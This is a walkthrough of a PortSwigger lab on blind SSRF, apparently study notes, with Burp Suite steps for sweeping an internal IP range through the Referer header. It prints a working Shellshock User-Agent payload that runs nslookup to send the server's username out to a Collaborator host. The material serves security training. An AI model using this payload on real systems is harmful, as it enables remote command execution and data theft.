Blind SSRF in multiple Headers (with Shellshock exploitation)
This site uses analytics software which
fetches the URL specified in the Referer header when a product page is loaded.
Exercise:1. In Burp Suite Professional, install the "Collaborator Everywhere" extension from the BApp Store.
 2. Add the domain of the lab to Burp Suite's target scope, so that Collaborator Everywhere will target it.
To do it Manually check the chapter before
Blind SSRF with out-of-band detection  3. Reload the Webpage so that the Burp Collaborator Everywhere will target it. Note the
Red dots 4. Observe that when you load a product page, it triggers an HTTP interaction with Burp Collaborator
5. What is done by the "Burp Collaborator Everywere" is insert the URL of the Burp collaborator client on almost every header of the request
6. Observe that also inside the User-Agent/Referer headers there is the URL of the Burp collaborator client.
  7. Generate a Burp Collaborator and copy to Clibpoard the URL of the Burp Collaborator Client
8. Test manually with Burp Repeater and check the interactions in Burp Collaborator
 Burp Collaborator:
  In this example what is happening:
◇ what is inside the User-Agent: is responsable of the HTTP request
◇ what is inside the Referrer: is the host that is queried
9. Send the product page vulnerable to Burp Intruder and Test it by changing User-Agent AND Referrer
Explanation of the
Shellshock Vulnerability here ◇ In the User-Agent Header place the following Shellshock payload:
() { :; }; /usr/bin/nslookup $(whoami).YOUR-SUBDOMAIN-HERE.burpcollaborator.net The User-Agent value exploit the Shellshock Vulnerability, it will be stored an environment variable
▪
() { :;}; → this indicate to bash the parameter where will be stored the value of User-Agentis not only a standard environment variable, but rather is a Bash function being stored in an environment variable.
- The parentheses,
(), indicate that this is a function.
- Within the curly braces,
{ }, is what this function will actually do. In large part, is arbitrary.
- We could put some shell commands here but for this vulnerability the most commonly found value within the curly braces is a colon, :, which to Bash means "do nothing"
▪
/usr/bin/nslookup $(whoami).YOUR-SUBDOMAIN-HERE.burpcollaborator.net → command that will be executed on the target machine
◇ In the Referer header place http://192.168.0.1:8080 then highlight the final octet of the IP address (the number 1), click "Add §".
 Switch to the Payloads tab, change the payload type to Numbers, and enter 1, 255, and 1 in the "From" and "To" and "Step" boxes respectively.
10. Click "Start attack".
11. When the attack is finished, go back to the Burp Collaborator client window, and click "Poll now".
You should see a DNS interaction that was initiated by the back-end system that was hit by the successful blind SSRF attack.
The name of the OS user should appear within the DNS subdomain.
 What is happened is that is been queried to an host of 192.168.0.X of the resolution of the domain name
() { :; }; /usr/bin/nslookup $(whoami).YOUR-SUBDOMAIN-HERE.burpcollaborator.net Bibliography:https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitationhttps://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface#remoteclient